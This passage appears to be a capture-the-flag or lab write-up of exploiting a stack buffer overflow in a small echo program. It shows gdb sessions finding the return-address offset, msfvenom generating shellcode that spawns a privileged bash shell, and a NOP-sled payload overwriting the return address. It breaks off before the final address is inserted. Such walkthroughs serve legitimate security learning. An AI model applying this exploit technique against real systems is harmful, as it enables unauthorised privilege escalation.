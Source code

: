 Trying to understand how many `A`s it takes to overflow with one `41` I went backward and ound it's 153:

```
(gdb) run $(python -c "print('A'*153)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*153)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400041 in ?? ()
```

So we know how many bytes it takes to get to the return address, but we don't know how long it is. So adding up to 159 `A`s results in overflowing until 159, which means the return address is 6 bytes long.

So let's start by generating a shellcode:

```
msfvenom -p linux/x64/exec CMD="/bin/bash -p" -f c
```

Find out the length of the shellcode:

```
python -c "shellcode='\x48\x31\xc9...\x9a\xe1\xde';print(len(shellcode))"
```

It's 50. So we need to add enough NOPs to front and back of it and send it to the binary to overwrite return address and then find out where the first NOP's address is located:

```
(gdb) run $(python -c "print('\x90'*51+'\x48\x31\xc9 ... \x9a\xe1\xde'+'\x90'*16+'B'*6)")
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('\x90'*17+'\x48\x31\xc9 ... \x9a\xe1\xde'+'\x90'*16+'B'*6)")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-64.amzn2.0.3.x86_64
Here's a program that echo's out your input
gpuٔHHruH1X'H-\Sls+N
   `#=v,lX-l^䫄ĒZu:Qh8}pBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424242 in ?? ()
```

As we can see the return address is successfully overwritten by 6 `B`s (`42`). Now we need to find where the first `NOP` appears:

```
(gdb) x/100x $rsp-200
0x7fffffffe8f8: 0xffffecf8      0x00007fff      0x90909090      0x90909090
```

Now we need to modify our payload to point to that exact memory address (reversed, cause little endian):
